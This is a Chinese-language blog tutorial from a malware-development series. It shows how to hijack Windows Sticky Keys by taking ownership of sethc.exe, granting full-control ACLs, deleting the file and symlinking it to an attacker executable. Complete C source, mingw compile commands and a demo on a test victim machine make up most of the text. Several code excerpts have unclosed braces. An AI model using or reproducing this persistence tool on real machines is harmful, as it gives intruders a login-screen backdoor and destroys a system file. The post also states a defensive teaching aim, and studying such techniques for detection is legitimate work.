





\newpage
\subsection{恶意软件开发：持久化（第 25 部分）——从合法程序创建指向恶意程序的符号链接（简单的 C 示例）}

﷽

{width="80%"}

在之前的某篇文章中，我写过通过辅助功能（Accessibility features）实现持久化的流行技巧，APT3、APT29 和 APT41 等 APT 组织曾利用该特性攻击 PC。

在这篇文章中，我只是向你展示同样的技巧，但换了一种逻辑：直接从合法应用创建指向恶意程序的符号链接。

### 创建符号链接与辅助功能

攻击者实现持久化的一种众所周知的方法，是创建符号链接（symlink）来替换或重定向 Windows 辅助功能。这种方法比单纯替换二进制文件更复杂，因为它需要从一个有效的系统文件或功能构建指向恶意文件的符号链接。当系统或用户尝试访问原始文件或功能时，就会被无意中导向一个有害文件。

### 实战示例

逻辑看起来相当简单，大概是这样：

```cpp
#include <windows.h>
#include <stdio.h>

int main() {
  // path to the legitimate binary (e.g., Sticky Keys)
  const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
  // path to the malicious binary
  const char* meowApp = "Z:\\hack.exe";

  // delete the original file (requires administrative privileges)
  if (!DeleteFileA((LPCSTR)legitApp)) {
  printf("error deleting original file: %d\n", GetLastError());
  return 1;
  }
  printf("original file deleted successfully\n");
  CloseHandle(hFile);

  // create the symbolic link
  if (!CreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
  printf("error creating symlink: %d\n", GetLastError());
  return 1;
  }
  printf("symlink to meow created successfully =^..^=\n");
  return 0;

```

但在现实中，一切都要稍微复杂一些。

假设我们有一个「恶意软件」：

```cpp
/*
* hack.c
* "malware" for symlink
* persistence trick
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/08/malware-pers-25.html
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;

```

而我想创建符号链接，目标合法应用是：

```powershell
const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
```

首先，我们需要权限：

```cpp
SE_TAKE_OWNERSHIP_NAME
SE_DEBUG_NAME
SE_RESTORE_NAME
SE_BACKUP_NAME
```

为此，只需使用 `setPrivilege` 函数：

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), 
  TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", priv);
  return res;

```

如你所见，这个函数用于为当前进程启用指定的特权。

然后，以所需的访问权限（`WRITE_OWNER` 和 `WRITE_DAC`）打开合法二进制文件：

```cpp
HANDLE hFile = CreateFileA((LPCSTR)legitApp, WRITE_OWNER | WRITE_DAC, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

接着获取令牌信息：

```cpp
// obtain the SID for the current user
HANDLE hToken;
DWORD dwSize = 0;
PTOKEN_USER pTokenUser = NULL;
if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken)) {
  printf("Failed to open process token: %d\n", GetLastError());
  CloseHandle(hFile);
  return 1;

printf("open process token: ok\n");

// get the required size for the token information
GetTokenInformation(hToken, TokenUser, NULL, 0, &dwSize);
pTokenUser = (PTOKEN_USER)malloc(dwSize);
if (pTokenUser == NULL) {
  printf("failed to allocate memory for token information\n");
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;

printf("allocate memory token info: ok\n");

// get the token information
if (!GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize)) {
  printf("failed to get token information: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;

printf("get token info: ok\n");
```

下一步，我们需要把合法二进制文件的所有者改为当前用户：

```cpp
// initialize a security descriptor
SECURITY_DESCRIPTOR sd;
if (!InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION)) {
  printf("failed to initialize security descriptor: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;

printf("init security descriptor: ok\n");

// set the owner in the security descriptor
if (!SetSecurityDescriptorOwner(&sd, pTokenUser->User.Sid, FALSE)) {
  printf("failed to set security descriptor owner: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;

printf("setting security descriptor owner: ok\n");

// apply the security descriptor to the file
if (!SetFileSecurityA(legitApp, OWNER_SECURITY_INFORMATION, &sd)) {
  printf("error setting file ownership: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;

printf("setting file ownership: ok\n");
```

`SetFileSecurityA` —— 把安全描述符应用到合法二进制文件，以更改其所有权。

然后，为文件应用新的 ACL：

```cpp
// set full control for the current user
EXPLICIT_ACCESS ea;
PACL pNewAcl = NULL;

ZeroMemory(&ea, sizeof(EXPLICIT_ACCESS));
ea.grfAccessPermissions = GENERIC_ALL;
ea.grfAccessMode = SET_ACCESS;
ea.grfInheritance = NO_INHERITANCE;
ea.Trustee.TrusteeForm = TRUSTEE_IS_SID;
ea.Trustee.TrusteeType = TRUSTEE_IS_USER;
ea.Trustee.ptstrName = (LPSTR)pTokenUser->User.Sid;

if (SetEntriesInAcl(1, &ea, NULL, &pNewAcl) != ERROR_SUCCESS) {
  printf("error setting new ACL: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;

printf("setting new ACL: ok\n");

if (SetSecurityInfo(hFile, SE_FILE_OBJECT, DACL_SECURITY_INFORMATION, 
NULL, NULL, pNewAcl, NULL) != ERROR_SUCCESS) {
  printf("error setting security info: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  LocalFree(pNewAcl);
  return 1;

printf("setting security info: ok\n");

free(pTokenUser);
CloseHandle(hToken);
LocalFree(pNewAcl);
```

最后，删除原始文件并设置符号链接：

```cpp
// delete the original file (requires administrative privileges)
if (!DeleteFileA((LPCSTR)legitApp)) {
  printf("error deleting original file: %d\n", GetLastError());
  return 1;

printf("original file deleted successfully\n");
CloseHandle(hFile);

HMODULE kernel = GetModuleHandle("kernel32.dll");
pCreateSymbolicLinkA = (BOOLEAN(WINAPI *)(LPCSTR, LPCSTR, DWORD))
GetProcAddress(kernel, (LPCSTR)"CreateSymbolicLinkA");

// create the symbolic link
if (!pCreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
  printf("error creating symlink: %d\n", GetLastError());
  return 1;

printf("symlink to meow created successfully =^..^=\n");
return 0;
```

如你所见，这要复杂得多：这个 PoC 演示了如何使用 Windows API 设置特权、更改文件所有权、设置 ACL、删除文件以及创建符号链接。

如果你试图直接从 `system32` 文件夹删除原始文件，就会收到错误：拒绝访问（access denied）。

另外，如果获取当前用户 SID 并设置它的过程不正确，你会收到类似「error 1337 invalid owner」之类的错误。

最终的源代码看起来就是这样（`pers.c`）：

```cpp
/*
* pers.c
* symlink persistence trick
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/08/malware-pers-25.html
*/
#include <windows.h>
#include <stdio.h>
#include <aclapi.h> // for OWNER_SECURITY_INFORMATION
#include <sddl.h> // for ConvertStringSidToSid ???

BOOLEAN (WINAPI * pCreateSymbolicLinkA)(
  LPCSTR lpSymlinkFileName,
  LPCSTR lpTargetFileName,
  DWORD  dwFlags
);

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) 
  res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", 
  priv);
  return res;

int main() {
  // path to the legitimate binary (e.g., Sticky Keys)
  const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
  // path to the malicious binary
  const char* meowApp = "Z:\\hack.exe";

  if (!setPrivilege(SE_TAKE_OWNERSHIP_NAME)) return -1;
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  if (!setPrivilege(SE_RESTORE_NAME)) return -1;
  if (!setPrivilege(SE_BACKUP_NAME)) return -1;

  HANDLE hFile = CreateFileA((LPCSTR)legitApp, GENERIC_WRITE, 
  FILE_SHARE_READ, NULL, OPEN_EXISTING, 
  FILE_ATTRIBUTE_NORMAL, NULL);

  // obtain the SID for the current user
  HANDLE hToken;
  DWORD dwSize = 0;
  PTOKEN_USER pTokenUser = NULL;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken)) {
  printf("Failed to open process token: %d\n", GetLastError());
  CloseHandle(hFile);
  return 1;
  }
  printf("open process token: ok\n");

  // get the required size for the token information
  GetTokenInformation(hToken, TokenUser, NULL, 0, &dwSize);
  pTokenUser = (PTOKEN_USER)malloc(dwSize);
  if (pTokenUser == NULL) {
  printf("failed to allocate memory for token information\n");
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
  }
  printf("allocate memory token info: ok\n");

  // get the token information
  if (!GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize)) {
  printf("failed to get token information: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
  }
  printf("get token info: ok\n");

  // initialize a security descriptor
  SECURITY_DESCRIPTOR sd;
  if (!InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION)) {
  printf("failed to initialize security descriptor: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
  }
  printf("init security descriptor: ok\n");

  // set the owner in the security descriptor
  if (!SetSecurityDescriptorOwner(&sd, pTokenUser->User.Sid, FALSE)) {
  printf("failed to set security descriptor owner: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
  }
  printf("setting security descriptor owner: ok\n");

  // apply the security descriptor to the file
  if (!SetFileSecurityA(legitApp, OWNER_SECURITY_INFORMATION, &sd)) {
  printf("error setting file ownership: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
  }
  printf("setting file ownership: ok\n");

  // set full control for the current user
  EXPLICIT_ACCESS ea;
  PACL pNewAcl = NULL;

  ZeroMemory(&ea, sizeof(EXPLICIT_ACCESS));
  ea.grfAccessPermissions = GENERIC_ALL;
  ea.grfAccessMode = SET_ACCESS;
  ea.grfInheritance = NO_INHERITANCE;
  ea.Trustee.TrusteeForm = TRUSTEE_IS_SID;
  ea.Trustee.TrusteeType = TRUSTEE_IS_USER;
  ea.Trustee.ptstrName = (LPSTR)pTokenUser->User.Sid;

  if (SetEntriesInAcl(1, &ea, NULL, &pNewAcl) != ERROR_SUCCESS) {
  printf("error setting new ACL: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
  }
  printf("setting new ACL: ok\n");

  if (SetSecurityInfo(hFile, SE_FILE_OBJECT, DACL_SECURITY_INFORMATION, NULL, 
  NULL, pNewAcl, NULL) != ERROR_SUCCESS) {
  printf("error setting security info: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  LocalFree(pNewAcl);
  return 1;
  }
  printf("setting security info: ok\n");

  free(pTokenUser);
  CloseHandle(hToken);
  LocalFree(pNewAcl);

  // delete the original file (requires administrative privileges)
  if (!DeleteFileA((LPCSTR)legitApp)) {
  printf("error deleting original file: %d\n", GetLastError());
  return 1;
  }
  printf("original file deleted successfully\n");
  CloseHandle(hFile);

  HMODULE kernel = GetModuleHandle("kernel32.dll");
  pCreateSymbolicLinkA = (BOOLEAN(WINAPI *)(LPCSTR, LPCSTR, DWORD))
  GetProcAddress(kernel, (LPCSTR)"CreateSymbolicLinkA");

  // create the symbolic link
  if (!pCreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
  printf("error creating symlink: %d\n", GetLastError());
  return 1;
  }

  printf("symlink to meow created successfully =^..^=\n");
  return 0;

```

请注意，这个 PoC 包含了 Windows API 函数、文件安全和 SID（安全标识符，Security Identifier）操作所需的头文件，并且有一个指向 `CreateSymbolicLinkA` 函数的函数指针，用于创建符号链接（我的 mingw 不加这个就无法无错编译）。

### 演示

我们来验证一下实际效果。

编译我们的 meow-meow「恶意软件」`hack.c`：

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

再编译持久化脚本：

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

然后，在测试受害者的机器上运行它（Windows 11 x64）：

```powershell
.\pers.exe
```

{width="80%"}

如你所见，符号链接成功创建了。

最后，连按 5 次 Shift 键：

{width="80%"}

注意 `hack.exe` 的属性：

{width="80%"}

如你所见，一切都按预期工作。完美！=..=

所以这个 PoC 展示了攻击者如何创建符号链接，把某个辅助功能重定向到恶意可执行文件。

我希望这篇文章能让蓝队成员了解这个有趣的技巧，并为红队成员的武器库增添一件武器。

[CreateSymbolicLinkA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createsymboliclinka)  
[Malware persistence - part 12. Accessibility features](https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-07-08-malware-pers-25)

`InitializeSecurityDescriptor` —— 初始化一个新的安全描述符。

`SetSecurityDescriptorOwner` —— 把安全描述符中的所有者设置为当前用户的 SID。
